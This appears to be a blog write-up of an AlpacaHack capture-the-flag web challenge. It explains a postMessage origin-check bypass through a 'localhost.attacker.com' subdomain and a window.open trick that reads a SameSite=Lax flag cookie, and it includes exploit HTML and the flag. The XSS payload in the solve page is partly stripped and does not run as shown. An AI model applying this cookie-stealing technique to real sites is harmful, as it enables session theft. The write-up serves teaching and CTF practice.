





## Unnecessary rambling (skip if not interested)

For the past month or so, I've been an author for a couple of local CTFs where I created challenges about client-side bugs related to iframes and OAuth, and a few more about GitHub Actions cache poisoning. I found that during my research for these challenges, the difficulty level I enjoyed in CTFs increased. SSTIs and the like were no longer things I found enjoyable, and I found myself looking for harder challenges to test my skills.

The problem was: these challenges are often hard to find. I started upsolving previous CTF problems (Dice, idek, etc.), but I wanted something more. I wanted to belong to a community.

AlpacaHack offered exactly that community. I'm so happy with the challenge quality, and the authors are incredibly welcoming. Today, I'll document how I solved the iframe sandbox challenge from t-chen.

## Challenge description



The challenge is a simple HTML rendering service. In these kinds of challenges, I usually audit the code to check for XSS sinks and find where the flag is located.

#### `index.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
  </head>
<body>
  <main>
    <h1>Sandbox HTML Renderer</h1>
    <textarea id="html-input"><h2>Hello</h2>
<p>This HTML is rendered inside the sandboxed iframe.</p></textarea>
    <button id="render-button" type="button">Render</button>
    <iframe
      id="sandbox-frame"
      src="/sandbox"
      sandbox="allow-scripts"
      title="Sandbox preview"
    ></iframe>
  </main>

  <script>
    const input = document.getElementById("html-input");
    const button = document.getElementById("render-button");
    const frame = document.getElementById("sandbox-frame");

    function render() {
      frame.contentWindow.postMessage(
        {
          type: "render-html",
          html: input.value
        },
        "*"
      );
    }

    button.addEventListener("click", render);
    frame.addEventListener("load", render, { once: true });
  </script>
</body>
</html>

```

#### `sandbox.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
  </head>
<body>
  <div id="app">Waiting for HTML...</div>

  <script>
    const app = document.getElementById("app");

    window.addEventListener("message", (event) => {
      if (event.source !== window.parent || !event.origin.includes(location.hostname)) {
        return;
      }

      const data = event.data;
      if (!data || data.type !== "render-html") {
        return;
      }

      app.innerHTML = data.html;
    });
  </script>
</body>
</html>

```

The challenge loads an `index.html` file, which in turn loads an iframe to the `sandbox.html` file where the sink is located.

> A sink in web security is a dangerous function where user input ends up. Here, it's `app.innerHTML`, which takes our input and inserts it into the DOM as actual HTML.

The data is sent through `postMessage`, and looking at the files, I don't see any source I can use except for the `postMessage` API.

> A source is the opposite of a sink; it's where data comes from.

The flag is set as a cookie.

## Issues and difficulties

Because the challenge has no traditional source to deliver the exploit, we have to rely on our attacker origin. We are met with the following hurdles, though:

```js
window.addEventListener("message", (event) => {
    if (event.source !== window.parent || !event.origin.includes(location.hostname)) {
        return;
    }

    const data = event.data;
    if (!data || data.type !== "render-html") {
        return;
    }

    app.innerHTML = data.html;
});

```

The `sandbox.html` message handler checks for two things:

1. The event source (the window we're sending the `postMessage` from) being the parent.
2. The source hostname including `localhost`.

The second restriction is easily bypassed by creating a `localhost.attacker.com` subdomain. The first one, however, I had little knowledge of and had to read up on:

### Windows and parent-child relationships



Windows are objects containing the DOM. Navigating to `http://example.com` would create a window whose document property is the DOM of `example.com`. Because we navigated to the URL ourselves, the parent of that window is the window itself. Windows can also be embedded, in which case their parent is the window that created them.

When I first attempted the challenge, I created an iframe to `sandbox.html` from my `localhost` attacker subdomain and sent a `postMessage` containing my XSS payload:

```html
<iframe
    id="sandbox-frame"
    src="http://localhost:3000/sandbox"
    title="Sandbox preview"
></iframe>

<script>
  const sandboxFrame = document.getElementById('sandbox-frame');

  sandboxFrame.addEventListener('load', () => {
    const payload = {
      type: 'render-html',
      html: ``
    };

    sandboxFrame.contentWindow.postMessage(payload, 'http://localhost:3000');
  });
</script>

```


No cookies? Why?

### Lax cookies

```js
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: new URL(APP_URL).hostname,
  path: "/",
});

```

When you don't specify a `SameSite` attribute on your cookies, they are `Lax` by default. `Lax` cookies are sent in first-party contexts or in top-level navigations:

1. A **first-party context** means that the domain in the user's address bar matches the domain of the request being made.
2. A **top-level navigation** happens when the window changes its URL to a new destination.

You can test both of these using simple HTML scripts. What I'm interested in is cookie access rather than cookie sending.


At `localhost.attacker.com`, our site was treated as a third-party context. Any embedded iframe wouldn't have access to its `Lax` cookies, rendering our attack useless :(

Or is it?

## 2nd order postMessage

We control the JS executed in the sandbox iframe. Is there a way to make the sandbox element read its cookies despite `document.cookie` returning nothing?

It turns out there is, and the answer is SOP.

If two windows are same-origin, their DOM and cookies are readily accessible. It only takes a reference to the window to be able to access its cookies. So, instead of injecting our XSS payload to read directly, we call `window.open("/sandbox")` from within the iframe and use its window reference to access the cookies.

### `solve.html`

```html
<iframe
    id="sandbox-frame"
    src="http://localhost:3000/sandbox"
    title="Sandbox preview"
></iframe>

<script>
  const sandboxFrame = document.getElementById('sandbox-frame');

  sandboxFrame.addEventListener('load', () => {
    const payload = {
      type: 'render-html',
      html: `
         { console.log('Cookies: ' + win.document.cookie) }, 2000);">
      `
    };

    sandboxFrame.contentWindow.postMessage(payload, 'http://localhost:3000');
  });
</script>

```



And just like that. Flag is: `Alpaca{4noth3r_sandb0x_An0ther_byp4s5}`

---

## Key takeaways

* **Hostnames vs. Origins:** Validation logic checking if an origin `includes('localhost')` is fundamentally flawed. Subdomains like `localhost.attacker.com` will easily bypass this check.
* **Default SameSite Behavior:** Modern browsers default to `SameSite=Lax` if the attribute isn't explicitly set. This means an iframed page (a third-party context) will not have its cookies attached, even if the iframe's source URL matches the cookie's domain.
* **Same-Origin Policy (SOP) is a Two-Way Street:** While SOP restricts access between different origins, it freely allows DOM and cookie sharing between windows/frames of the *same* origin.
* **The Top-Level Context Switch:** You can escape a cookie-less iframe context by executing `window.open()`. This forces a top-level navigation, making `Lax` cookies accessible to the newly opened window. Because your payload and the new window are same-origin, you can reach into it and steal the cookie.
* **Asynchronous Rendering Matters:** When chaining exploits across windows, functions like `window.open()` rely on the network. You must account for the time it takes for the browser to fetch and render the new DOM (e.g., using `setTimeout`) before trying to extract data from it.

## References

* [Window: postMessage() method - MDN Web Docs](https://www.google.com/search?q=https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
* [SameSite cookies - MDN Web Docs](https://www.google.com/search?q=https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)
* [Same-origin policy - MDN Web Docs](https://www.google.com/search?q=https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
* [Window: open() method - MDN Web Docs](https://www.google.com/search?q=https://developer.mozilla.org/en-US/docs/Web/API/Window/open)


